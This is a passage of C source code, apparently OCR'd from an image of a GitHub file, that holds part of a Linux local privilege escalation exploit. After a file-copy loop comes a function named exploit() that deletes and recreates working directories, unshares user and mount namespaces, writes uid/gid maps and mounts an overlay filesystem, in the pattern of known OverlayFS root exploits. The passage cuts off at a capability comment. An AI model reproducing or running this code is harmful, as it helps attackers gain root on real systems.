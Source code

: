 ```c

    char buf[4096];
    ssize_t rd, wr;

    for (;;) {
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }

        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }

    close(fi);
    close(fo);
}

static int exploit()
{
    char buf[4096];

    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);

    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);

    uid_t uid = getuid();
    gid_t gid = getgid();

    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");

    xwritefile("/proc/self/setgroups", "deny");

    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    xwritefile("/proc/self/gid_map", buf);

    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);

    // all+ep
```